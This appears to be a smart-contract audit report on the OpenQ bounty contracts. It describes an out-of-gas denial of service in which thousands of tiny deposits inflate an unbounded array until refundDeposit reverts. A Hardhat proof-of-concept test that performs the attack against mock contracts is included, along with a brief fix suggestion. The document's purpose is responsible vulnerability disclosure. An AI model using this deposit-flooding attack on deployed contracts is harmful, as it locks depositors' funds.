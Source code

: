 Reason: not even our code.


modern_Alchemist_00

unlabeled

# [H] - RefundDeposit will fail in the future due to Out of Gas error.

## Summary

refundDeposit() in the DepositManagerV1.sol calls a view function - bounty.getLockedFunds(depToken) which iterates over each deposits array. The deposit array increases in length whenever the receiveFunds is called. So, as it increases the gas used to call the refundDeposit() also increases. This can eventually run out of gas when it deposits array reach about 4200 in length.

## Vulnerability Detail

The code where the deposits array is iterated is on **Line 333 of BountyCore.sol - in the getLockedFunds function.**

An attacker can easily attack this by calling `fundBountyToken()` multiple times(about 4200 times) with very low amount of tokens. Since the chain used here is polygon, the cost of attack is low.

Once the `deposits` array is too large, the function `refundDeposit()` will no longer work and when the real user tries to withdraw, the funds won’t be sent as the function reverts.

The below code was used to run the tests and eventually make the function run out of gas.

## Impact

It has an impact on the entire contract

## Code Snippet



```solidity

describe('gas error', () => {
		it("Should run out of gaaaaassss", async () => {
			await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
			const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

			// Assume attacker has some very small amount of link tokens. Transfering some from owner
			await mockLink.connect(owner).transfer(attacker.address,5000)


			let linkDepositId;
			// User deposits
			await mockLink.connect(owner).approve(bountyAddress, ethers.utils.parseEther("9499"));
			linkDepositId = generateDepositId(Constants.bountyId, 0);
			await depositManager.connect(owner).fundBountyToken(bountyAddress, mockLink.address, ethers.utils.parseEther("9499"), 1, Constants.funderUuid);

			const balanceAfterFunded = await mockLink.balanceOf(owner.address);

			// Attacker approves and deposits very small amounts in loops
			// Since the chain used is Polygon, the cost of attack is low
			await mockLink.connect(attacker).approve(bountyAddress, 5000);
			const volume = 1;
			for(let i=1; i<4200; i++){
				await depositManager.connect(attacker).fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);
			}

			const thirtyTwoDays = 2765000;
			ethers.provider.send("evm_increaseTime", [thirtyTwoDays]);

			await expect(depositManager.connect(owner).refundDeposit(bountyAddress, linkDepositId)).to.be.reverted;

			const balanceAfterRefund = await mockLink.balanceOf(owner.address);
			expect(balanceAfterFunded).to.eq(balanceAfterRefund);

		})
	 })

```

So as seen above, when about 4200 deposits where made and after that when the refundDeposit() was called, it gave an out of gas error.

## Tool used

Hardhat

Manual Review

## Recommendation

To have some upper bound on gas consumption with that another for loop is tracking
